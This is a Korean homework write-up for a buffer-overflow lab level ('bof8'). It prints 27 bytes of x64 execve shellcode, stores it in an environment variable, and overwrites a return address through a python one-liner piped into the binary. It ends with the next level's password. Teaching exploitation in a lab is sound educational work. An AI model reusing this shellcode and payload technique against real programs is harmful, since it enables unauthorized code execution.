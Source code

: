 # GBC_security HW7  
## bof8 write-up  

오늘 실험에 쓸 쉘코드는 [링크](http://shell-storm.org/shellcode/files/shellcode-806.php)에서 만들어진 리눅스 x64 아키텍처용 쉘 코드이다.  

우리가 직접 쉘 코드를 만들지 않고 ```\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05```를 쓰겠다.  

시작해보자.  

일단, gets와 strcpy의 취약점은 input을 버퍼에 저장할 때 길이 검증 없이 데이터를 스택에 쌓는다.  
이러한 부분을 이용할 것인데, 이번에는 함수의 return address를 약간 조작(?)하여 쉘코드를 실행시킬 것이다.  


![bof8_1](img/bof8_1.PNG)  
소스코드이다.  

6번과 7번 그리고 우린 bof문제를 123456번을 풀었다.  
슬슬 감이 오지않는가?  

늘 하던대로 가보자.  
vuln의 return address와 buf의 adreess로 길이를 구해보자.  

![bof8_2](img/bof8_2.PNG)  
vuln의 return address = p $rsp = 0x7fffffffe4a8  

![bof8_3](img/bof8_3.PNG)  
bof7과 동일하다.  
우린 error에 잡히면 안된다.  
7번과 같이 ZF를 바꿔 error를 피해보자!  

![bof8_4](img/bof8_4.PNG)  
확인해보면, buf의 address는 0x7fffffffe498이다.  

![bof8_5](img/bof8_5.PNG)  
길이는 16이다.  

즉, 16의 길이만큼 의미없는 값을 넣고 return address를 buf address로 덮으면 된다.  
근데 여기서 문제가 있다.  
쉘코드의 길이는 27인데 vuln의 return address와buf address차이가 16이다.  

즉, 쉘코드만으로 이미 길이를 넘어버린다.  

여기서 hint를 사용해서, getenv라는 함수에서 SHELLCODE를 get해주는 것 같은데, export로 SHELLCODE를 직접 입력해준다.  
```  
export SHELLCODE = `python -c "print '\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'"`  
```  
이렇게 하면 아마 SHELLCODE에 SHELL code 값을 넣어주는 것 같다.  
그 후, 알고있던 데로, 'x'로 16개의 길이를 덮고, return address를 이번엔 buf의 address가 아닌, 코드에 있는 SHELLCODE의 address로 준다.  
그것은 printf로 되기때문에 실행을 해준다.  

![bof8_6](img/bof8_6.PNG)  
SHELLCODE가 제대로 넣어졌다(그전에 export안했을 땐 nil으로 떴음)  
이제 SHELLCODE의 주솟값이 0x7fffffffe83e인 것을 알았으니, 
(python -c "print 'x'*16+'\x3e\xe8\xff\xff\xff\x7f'";cat) | ./bof8 으로 실행해본다.  

![bof8_7](img/bof8_7.PNG)  
> bof9 passwd = <u>e0caa67f</u>